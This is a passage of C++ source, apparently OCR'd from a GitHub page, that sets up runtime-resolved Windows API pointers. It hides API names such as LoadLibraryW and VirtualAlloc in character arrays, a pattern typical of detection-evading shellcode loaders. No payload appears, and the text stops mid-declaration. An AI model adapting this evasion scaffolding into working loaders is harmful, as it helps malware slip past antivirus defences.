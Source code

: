 ```cpp

typedef LSTATUS(WINAPI* RegOpenKeyType)(HKEY hKey, LPCWSTR lpSubKey, PHKEY phkResult);
typedef LSTATUS(WINAPI* RegGetValueType)(HKEY hkey, LPCWSTR lpSubKey, LPCTSTR lpValue, DWORD dwFlags, LPDWORD pdwType, PVOID pvData, LPDWORD pcbData);
typedef LSTATUS(WINAPI* RegSetValueExType)(HKEY hKey, LPCWSTR lpValueName, DWORD Reserved, DWORD dwType, CONST BYTE* lpData, DWORD cbData);
typedef LSTATUS(WINAPI* RegCloseKeyType)(HKEY hKey);


typedef void* (WINAPIV* memsetType)(void* dest, int c, size_t count);
typedef void* (WINAPIV* memcpyType)(void* dest, const void* src, size_t count);
typedef int (WINAPIV* memcmpType)(const void* buffer1, const void* buffer2, size_t count);
typedef void (WINAPI* ExitThreadType)(DWORD dwExitCode);
#ifdef _DEBUG
typedef void (WINAPIV* printfType)(const char* fmt, ...);
#endif


int main()
{

    // DLLs to dynamically load during runtime
    HMODULE kernel32dll, msvcrtdll, advapi32dll, ntdll;

    // Types
    // msvcrt.dll
    memcpyType memcpyFunc;
    memcmpType memcmpFunc;
    memsetType memsetFunc;
#ifdef _DEBUG
    printfType printfFunc;
#endif

    // advapi32.dll
    RegGetValueType RegGetValueFunc;
    RegSetValueExType RegSetValueExFunc;
    RegOpenKeyType RegOpenKeyFunc;

    // kernel32.dll
    LoadLibraryType LoadLibraryFunc;
    VirtualAllocType VirtualAllocFunc;
    VirtualProtectType VirtualProtectFunc;
    SleepType SleepFunc;

    CreateThreadType CreateThreadFunc;
    WaitForSingleObjectType WaitForSingleObjectFunc;

#ifdef FREE
    VirtualFreeType VirtualFreeFunc;
#endif

    VirtualQueryType VirtualQueryFunc;
    GetCurrentThreadType GetCurrentThreadFunc;
    ExitThreadType ExitThreadFunc;
    CreateMutexType CreateMutexFunc;
    ReleaseMutexType ReleaseMutexFunc;
    CloseHandleType CloseHandleFunc;
    RegCloseKeyType RegCloseKeyFunc;


    CHAR LoadLibraryName[] = { 'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'W', '\0' };
    CHAR VirtualAllocName[] = { 'V', 'i', 'r', 't', 'u', 'a', 'l', 'A', 'l', 'l', 'o', 'c', '\0' };
```